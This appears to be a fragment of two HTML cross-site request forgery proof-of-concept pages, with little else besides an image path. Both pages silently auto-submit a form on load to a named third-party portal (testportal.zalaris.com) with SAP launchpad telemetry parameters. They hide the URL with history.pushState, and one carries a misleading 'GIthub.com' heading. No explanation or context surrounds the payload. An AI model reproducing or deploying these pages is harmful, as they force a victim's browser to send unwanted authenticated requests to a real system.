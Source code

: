 <html><h1>GIthub.com</h1><body><script>history.pushState('', '', '/')</script><form action="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_TELEMETRY_APP&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=22100009&field_id=80287" method="POST"><input type="submit" value="Submit request" /></form><script>document.forms[0].submit();</script></body></html>
<html><body><script>history.pushState('', '', '/')</script><form action="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard"><input type="hidden" name="ajax&#95;id" value="GET&#95;TELEMETRY&#95;APP" /><input type="hidden" name="ajax&#95;applid" value="ZALARIS&#95;LAUNCHPAD&#95;STANDARD" /><input type="hidden" name="sap&#45;client" value="510" /><input type="hidden" name="dxp" value="22100009" /><input type="hidden" name="field&#95;id" value="80287" /><input type="submit" value="Submit request" /></form><script>document.forms[0].submit();</script></body></html>

